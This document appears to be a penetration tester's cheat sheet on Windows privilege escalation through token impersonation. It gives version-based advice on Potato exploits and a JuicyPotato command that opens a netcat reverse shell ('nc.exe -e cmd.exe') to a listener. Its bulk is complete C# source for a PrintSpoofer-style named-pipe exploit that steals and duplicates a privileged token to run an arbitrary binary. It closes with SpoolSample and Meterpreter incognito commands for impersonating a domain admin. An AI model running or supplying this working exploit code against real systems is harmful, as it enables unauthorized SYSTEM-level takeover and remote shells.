

Intro
.
##If the machine is either Windows 7, 8, 10 or Windows Server 2008 and 2012, try Hot Potato.
##If the machine is either < Windows 10 1809 or < Windows Server 2019, try Juicy Potato
### search clsid here https://github.com/ohpe/juicy-potato/tree/master/CLSID
JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe <LISTENING_IP> <LISTENING_PORT>" -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
## • If the machine is either >= Windows 10 1809 or >= Windows Server 2019, try Rogue Potato
https://github.com/antonioCoco/RoguePotato
https://github.com/antonioCoco/RemotePotato0
# For more updated versions, try PrintSpoofer.
using System;
using System.Runtime.InteropServices;
using System.Security.Principal;
using System.Text;
namespace PrintSpoofer
{
public class Program
{
public static uint PIPE_ACCESS_DUPLEX = 0x3;
public static uint PIPE_TYPE_BYTE = 0x0;
public static uint PIPE_WAIT = 0x0;
public static uint TOKEN_ALL_ACCESS = 0xF01FF;
public static uint TOKENUSER = 1;
public static uint SECURITY_IMPERSONATION = 2;
public static uint TOKEN_PRIMARY = 1;
[StructLayout(LayoutKind.Sequential)]
public struct PROCESS_INFORMATION
{
public IntPtr hProcess;
public IntPtr hThread;
public int dwProcessId;
public int dwThreadId;
}
[StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)]
public struct STARTUPINFO
{
public Int32 cb;
public string lpReserved;
public string lpDesktop;
public string lpTitle;
public Int32 dwX;
public Int32 dwY;
public Int32 dwXSize;
public Int32 dwYSize;
public Int32 dwXCountChars;
public Int32 dwYCountChars;
public Int32 dwFillAttribute;
public Int32 dwFlags;
public Int16 wShowWindow;
public Int16 cbReserved2;
public IntPtr lpReserved2;
public IntPtr hStdInput;
public IntPtr hStdOutput;
public IntPtr hStdError;
}
public enum CreationFlags
{
DefaultErrorMode = 0x04000000,
NewConsole = 0x00000010,
NewProcessGroup = 0x00000200,
SeparateWOWVDM = 0x00000800,
Suspended = 0x00000004,
UnicodeEnvironment = 0x00000400,
ExtendedStartupInfoPresent = 0x00080000
}
public enum LogonFlags
{
WithProfile = 1,
NetCredentialsOnly
}
[DllImport("kernel32.dll", SetLastError = true)]
static extern IntPtr CreateNamedPipe(string lpName, uint dwOpenMode, uint dwPipeMode, uint nMaxInstances, uint nOutBufferSize, uint nInBufferSize, uint nDefaultTimeOut, IntPtr lpSecurityAttributes);
[DllImport("kernel32.dll")]
static extern bool ConnectNamedPipe(IntPtr hNamedPipe, IntPtr lpOverlapped);
[DllImport("Advapi32.dll")]
static extern bool ImpersonateNamedPipeClient(IntPtr hNamedPipe);
[DllImport("advapi32.dll", SetLastError = true)]
static extern bool OpenThreadToken(IntPtr ThreadHandle, uint DesiredAccess, bool OpenAsSelf, out IntPtr TokenHandle);
[DllImport("kernel32.dll")]
static extern IntPtr GetCurrentThread();
[DllImport("advapi32", SetLastError = true, CharSet = CharSet.Unicode)]
public static extern bool CreateProcessWithTokenW(IntPtr hToken, LogonFlags dwLogonFlags, string lpApplicationName, string lpCommandLine, CreationFlags dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);
[DllImport("advapi32.dll", CharSet = CharSet.Auto, SetLastError = true)]
public extern static bool DuplicateTokenEx(IntPtr hExistingToken, uint dwDesiredAccess, IntPtr lpTokenAttributes, uint ImpersonationLevel, uint TokenType, out IntPtr phNewToken);
[DllImport("advapi32.dll", SetLastError = true)]
static extern bool RevertToSelf();
[DllImport("kernel32.dll")]
static extern uint GetSystemDirectory([Out] StringBuilder lpBuffer, uint uSize);
[DllImport("userenv.dll", SetLastError = true)]
static extern bool CreateEnvironmentBlock(out IntPtr lpEnvironment, IntPtr hToken, bool bInherit);
public static void Main(string[] args)
{
// Parse arguments (pipe name)
if (args.Length != 2)
{
Console.WriteLine("Please enter the pipe name to be used and the binary to trigger as arguments.\nExample: .\\PrintSpoofer.exe \\\\.\\pipe\\test\\pipe\\spoolss c:\\windows\\tasks\\bin.exe");
return;
}
string pipeName = args[0];
string binToRun = args[1];
// Create our named pipe
IntPtr hPipe = CreateNamedPipe(pipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_BYTE | PIPE_WAIT, 10, 0x1000, 0x1000, 0, IntPtr.Zero);
// Connect to our named pipe and wait for another client to connect
Console.WriteLine("Waiting for client to connect to named pipe...");
bool result = ConnectNamedPipe(hPipe, IntPtr.Zero);
// Impersonate the token of the incoming connection
result = ImpersonateNamedPipeClient(hPipe);
// Open a handle on the impersonated token
IntPtr tokenHandle;
result = OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, false, out tokenHandle);
// Duplicate the stolen token
IntPtr sysToken = IntPtr.Zero;
DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, IntPtr.Zero, SECURITY_IMPERSONATION, TOKEN_PRIMARY, out sysToken);
// Create an environment block for the non-interactive session
IntPtr env = IntPtr.Zero;
bool res = CreateEnvironmentBlock(out env, sysToken, false);
// Get the impersonated identity and revert to self to ensure we have impersonation privs
String name = WindowsIdentity.GetCurrent().Name;
Console.WriteLine($"Impersonated user is: {name}.");
RevertToSelf();
// Get the system directory
StringBuilder sbSystemDir = new StringBuilder(256);
uint res1 = GetSystemDirectory(sbSystemDir, 256);
// Spawn a new process with the duplicated token, a desktop session, and the created profile
PROCESS_INFORMATION pInfo = new PROCESS_INFORMATION();
STARTUPINFO sInfo = new STARTUPINFO();
sInfo.cb = Marshal.SizeOf(sInfo);
sInfo.lpDesktop = "WinSta0\\Default";
CreateProcessWithTokenW(sysToken, LogonFlags.WithProfile, null, binToRun, CreationFlags.UnicodeEnvironment, env, sbSystemDir.ToString(), ref sInfo, out pInfo);
Console.WriteLine($"Executed '{binToRun}' with impersonated token!");
}
}
}
PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss c:\windows\tasks\reverse.exe
# Invoke SpoolSample to trigger the change notification against the capture server ($target/pipe/test)
.\SpoolSample.exe appsrv01 appsrv01/pipe/test
## note naming is related to some weird config and to avoid same pool sample name
appsrv01 = $target from another controlled machine
load incognito
help incognito
list_tokens -u
impersonate_token corp1\\admin
getuid
